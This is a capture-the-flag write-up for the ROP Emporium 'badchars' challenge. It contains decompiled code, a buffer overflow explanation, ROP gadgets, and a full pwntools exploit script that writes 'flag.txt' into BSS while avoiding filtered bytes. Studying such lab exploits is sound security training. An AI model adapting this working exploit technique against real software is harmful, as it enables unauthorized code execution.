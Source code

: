 # badchars

## Reversing with Ghidva

### main
```c
int main() {
  pwnme();
  return 0;
}
```

### pwnme
```c
void pwnme() {
  int input_len;
  int i, j;
  char input[32];
  
  puts("badchars by ROP Emporium");
  puts("x86_64\n");
  memset(input, 0, 0x20);
  puts("badchars are: \'x\', \'g\', \'a\', \'.\'");
  printf("> ");
  input_len = read(0, input, 0x200);
  // If 'x', 'a', 'g' or '.' in input: replace them with -0x15
  for (i = 0; i < input_len; i = i + 1) {
    for (j = 0; j < 4; j = j + 1) {
      if (input[i] == "xga.badchars by ROP Emporium"[j]) {
        input[i] = -0x15;
      }
    }
  }
  puts("Thank you!");
}
```

### print_file
```c
void print_file(char *file_name) {
  char buf [40];
  FILE *file;
  
  file = 0;
  file = fopen(file_name, "r");
  if (file == 0) {
    printf("Failed to open file: %s\n", file_name);
    exit(1);
  }
  fgets(buf, 0x21, file);
  puts(buf);
  fclose(file);
}
```

## Target
The target is to call the function `print_file` with `flag.txt` as argument. But the binary checks our input and doesn't consents us to use some "bad chars": `['x', 'g', 'a', '.']`.

## The vuln

A `Buffer Overflow` allows us to perform a `ROP chain` attack using some useful gadgets.
Useful gadgets (using `ropper`):
```asm
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040062c: add byte ptr [r15], r14b; ret;
0x00000000004006a2: pop r15; ret;
0x00000000004006a3: pop rdi; ret;
0x0000000000400634: mov qword ptr [r13], r12; ret;
```
The first one and the last one allow us to perform arbitrary write in the same fashion as `write4`. The fourth one is to set the first parameter of a function. The second one consents us to add arbitrary integers to arbitrary memory spaces.

## The exploit
Using these gadgets, we can write into some writable memory space (e.g. `BSS`) the string `flag.txt` modified such that the badchars are decreased by 1. The correct char is then recovered using additions, re-adding one to the correct char.

The `add` instruction we need can be found in the `0x40062c` gadget.

## The script
```py
from pwn import *
import string
import os

def get_ns_offsets(s, badchars):
    news = ''.join([x if x not in badchars else chr(ord(x) - 1) for x in s])
    offsets = [s.index(x) for x in s if x in badchars]
    return news, offsets

#
# Context
#

badchars = ['x', 'g', 'a', '.']

e = context.binary = ELF("badchars")

#
# ROP
#

PRINT_FILE          = p64(e.plt['print_file'])

POP_R12_R13_R14_R15 = p64(next(e.search(asm('pop r12; pop r13; pop r14; pop r15; ret;'))))
ADD_DEREF_R15_R14B  = p64(next(e.search(asm('add byte ptr [r15], r14b; ret;'))))
MOV_DEREF_R13_R12   = p64(next(e.search(asm('mov qword ptr [r13], r12; ret; '))))
POP_R15             = p64(next(e.search(asm('pop r15; ret;'))))
POP_RDI             = p64(next(e.search(asm('pop rdi; ret;'))))

BSS_WRITE           = p64(e.bss(offset=0x200))

#
# Offset
#

io = process(e.path)
io.sendlineafter(b'> ', cyclic(0x200, alphabet=string.digits))
io.wait()
core = io.corefile
io.close()

offset = cyclic_find(core.read(core.rsp, 4), alphabet=string.digits)

info(f'Offset: {offset}')

#
# Exploit
#

io = process(e.path)

newstring, offsets = get_ns_offsets('flag.txt', badchars)

info(f'flag.txt -> {newstring}')

payload  = b''
payload += b'A' * offset
payload += POP_R12_R13_R14_R15
payload += newstring.encode()
payload += BSS_WRITE
payload += p64(1)
payload += BSS_WRITE
payload += MOV_DEREF_R13_R12
for o in offsets:
    payload += POP_R15
    payload += p64(u64(BSS_WRITE) + o)
    payload += ADD_DEREF_R15_R14B
payload += POP_RDI
payload += BSS_WRITE
payload += PRINT_FILE

io.sendlineafter(b'> ', payload)

info(f'Flag: {io.recvrepeat(2).decode()}')

io.close()

os.system('rm core*')
```
